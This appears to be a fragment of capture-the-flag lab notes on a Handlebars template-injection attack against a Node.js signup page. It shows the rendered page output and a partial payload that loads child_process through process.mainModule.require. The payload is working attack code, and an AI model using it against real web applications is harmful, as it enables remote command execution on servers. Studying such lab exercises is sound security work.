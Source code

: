 ```html 
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="css/home.css">
    <title> Bike </title>
</head>
<header>

</header>

<body>
    <div id=container>
  <img
    src="images/buttons.gif"
    id="avatar">
  <div class="type-wrap">
    <span id="typed" style="white-space:pre;" class="typed"></span>
  </div>
</div>
<div id="contact">
    <h3>We can let you know once we are up and running.</h3>
    <div class="fields">
      <form id="form" method="POST" action="/">
        <input name="email" placeholder="E-mail"></input>
        <button type="submit" class="button-54" name="action" value="Submit">Submit</button>
      </form>
    </div>
    <p class="result">
        We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
            [object process]

    </p>
</div>
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/2.2.4/jquery.min.js"></script>
    <script src="js/typed.min.js"></script>
    <script src="js/main.js"></script>
</body>

</html>
```

- having changed the module to use process.mainModule we can see that the require is now being we can now call the require and we show no errors
![[Pasted image 20230329154315.png]]
```shell
{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
```